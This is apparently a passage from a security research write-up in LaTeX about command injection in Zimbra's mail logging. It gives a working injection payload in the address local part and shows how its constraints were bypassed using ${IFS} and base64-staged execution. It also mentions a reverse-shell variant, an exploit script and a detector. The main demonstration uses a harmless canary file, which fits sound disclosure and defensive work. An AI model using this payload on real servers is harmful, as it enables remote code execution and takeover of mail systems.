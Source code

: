 \textbf{Payload anatomy.} The local part is
\texttt{"cve73570canary\$(touch\${IFS}/\hspace{0pt}tmp/cve-73570-canary)@host"}. Three
wire constraints shaped it, each learned by failing and re-testing:
\begin{enumerate}
\item \textbf{Quoted local part} (\texttt{"..."}) is required: unquoted
      addresses containing \texttt{()} are rejected or truncated by the
      envelope parser before logging.
\item \textbf{No literal spaces}: postfix address parsing truncates at
      spaces. \texttt{\${IFS}} is the standard shell-substitution space
      substitute — inside a \texttt{\$(...)} context the shell expands it to
      a space at \emph{execution} time, after the address has already been
      logged.
\item \textbf{No \texttt{<} or \texttt{>}}: the address parser treats
      \texttt{>}\ as the address terminator even inside quotes, so
      redirects (\texttt{5<>}) and here-docs are unusable on the wire. The
      reverse-shell payload therefore stages via base64
      (\texttt{echo b64|base64 -d|bash}) instead of inline \texttt{5<>}.
\end{enumerate}

\subsection{Negative control: the dry run}

The dry-run payload (Listing above) executes
\texttt{touch\${IFS}/tmp/cve-73570-canary} — it creates one empty file and
does nothing else. Results (identical in both our tooling, the
\texttt{exploit\_snmp.py --mode dry-run} and the
\texttt{detect\_snmp\_sink.py --active} detector):

\begin{itemize}
\item The message is queued normally (\texttt{250 2.0.0 Ok}), then bounced
      (no such mailbox) — the bounce is what the S-B \texttt{watchfor}
      matches.
\item Within \textbf{$\approx$25 seconds} (swatch file-tail latency), the
      canary exists on the target, owned by \texttt{zimbra:zimbra}, mode
      \texttt{0600}.
\item \texttt{zmswatch.out} (swatchdog's stdout) gains the line
      \texttt{SNMP notification: ...} — the sink's own execution record.
\end{itemize}

